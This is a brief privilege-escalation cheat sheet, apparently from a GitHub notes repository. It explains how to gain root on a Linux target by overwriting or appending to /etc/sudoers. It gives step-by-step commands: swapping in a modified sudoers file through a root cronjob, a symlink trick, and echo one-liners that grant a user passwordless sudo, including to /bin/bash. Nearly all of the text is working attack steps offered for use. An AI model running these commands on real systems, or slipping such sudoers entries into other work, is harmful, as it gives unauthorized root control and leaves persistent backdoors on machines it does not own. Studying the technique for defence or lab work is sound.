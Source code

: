 # Sudoers file

### Use cases:

### If a cronjob running as root exists that can overwrite a file within the file system, one file we can abuse is the sudoers file.

#### STEPS:

#### 1) Attacking machine: 

    sudo cp /etc/sudoers .

#### 2) Attacking machine: Give the current user you already owned sudo privileges for all commands like:

    USER  ALL=(ALL:ALL) ALL

#### or

    USER ALL=(ALL:ALL) NOPASSWD:ALL

#### 3) According to the cronjob at the time, use it to transfer the sudoers file from the attacking machine to the target machine, overwriting the target's /etc/sudoers file with your own modified file.

#### 4) 

    sudo su

#### 5) PROFIT!

### Alternate method to exploit this: symlinks

#### Command:

    ln -s /etc/sudoers /home/USER/sudoers

### Then, if there is a misconfiguration that enables our user to give permissions to arbitrary files, then we can edit the sudoers file to give our user rights to execute ANYTHING without password as root via sudo

## Writeable /etc/sudoers example

    echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers
    
    # use SUDO without password
    echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
    echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers
